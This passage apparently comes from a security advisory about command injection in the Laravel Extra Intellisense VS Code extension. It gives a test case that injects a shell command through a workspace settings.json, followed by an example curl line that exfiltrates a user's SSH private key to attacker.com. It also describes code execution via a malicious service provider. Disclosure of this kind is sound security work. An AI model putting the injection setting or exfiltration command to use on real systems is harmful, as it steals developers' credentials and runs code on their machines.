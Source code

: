 ### Security test case
1. Create a new Laravel project with the following file structure:
   ```
   /test-project
     /app
     /bootstrap
     /config
     /...other Laravel files...
     /.vscode/settings.json
   ```

2. In the `.vscode/settings.json` file, add:
   ```json
   {
     "LaravelExtraIntellisense.phpCommand": "echo 'SECURITY_TEST: Command injection successful' > /tmp/vscode_test; php -r \"{code}\""
   }
   ```

3. Open the project in VSCode with the Laravel Extra Intellisense extension installed

4. Create or open a PHP file in the project and try to trigger autocomplete for a Laravel feature (e.g., type `view('` and wait for autocomplete to appear)

5. Check if the file `/tmp/vscode_test` was created and contains the message "SECURITY_TEST: Command injection successful"

If the file exists with the expected content, the vulnerability is confirmed. This demonstrates that arbitrary commands can be executed through the `phpCommand` setting.

For a more realistic attack, the injected command could be:
```
curl -s https://attacker.com/exfil?data=$(cat ~/.ssh/id_rsa | base64) > /dev/null; php -r "{code}"
```

This would silently exfiltrate the user's SSH private key to the attacker's server.

## Remote Code Execution via Malicious Laravel Service Provider

### Vulnerability Name
Remote Code Execution via Malicious Laravel Service Provider

### Description
This vulnerability allows a threat actor to execute arbitrary code on a user's system by creating a specially crafted Laravel project with malicious code in service providers, middleware, or other Laravel bootstrap components.

The VS Code extension automatically bootstraps the entire Laravel application to extract information like routes, views, models, etc. When a user opens a Laravel project containing malicious code, that code will be executed whenever the extension performs its analysis of the project structure, which happens periodically and automatically.

Steps to trigger the vulnerability:
1. Attacker creates a legitimate-looking Laravel project with a hidden malicious service provider
2. Target user opens the project in VS Code with Laravel Extra Intellisense extension enabled
3. The extension automatically bootstraps the Laravel application, loading all service providers
4. The malicious service provider's code executes with the permissions of the VS Code process

